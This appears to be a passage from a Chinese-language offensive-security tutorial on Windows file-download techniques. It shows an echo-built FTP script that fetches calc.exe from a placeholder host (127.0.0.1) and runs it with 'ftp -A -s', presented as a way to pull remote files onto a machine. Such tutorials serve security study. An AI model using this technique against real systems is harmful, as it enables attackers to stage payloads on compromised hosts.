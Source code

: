 ![HTTPS&#x4E0B;&#x8F7D;](../../.gitbook/assets/image%20%28404%29.png)

## 3、FTP下载

ftp命令也是全版本Windows系统都默认包含的，其中-s参数可以指定包含 FTP 命令的文本文件；命令在 FTP 启动后自动运行，可以被利用自动下载远程文件

### 1、匿名模式

```text
## 写入ftp脚本

echo open 127.0.0.1 21> ftp.txt
echo binary >> ftp.txt
echo get calc.exe >> ftp.txt
echo bye >> ftp.txt

## ftp命令调用
# -A 使用匿名模式，-s:指定ftp脚本

ftp -A -s:ftp.txt
```

![](../../.gitbook/assets/image%20%28381%29.png)

### 2、密码模式

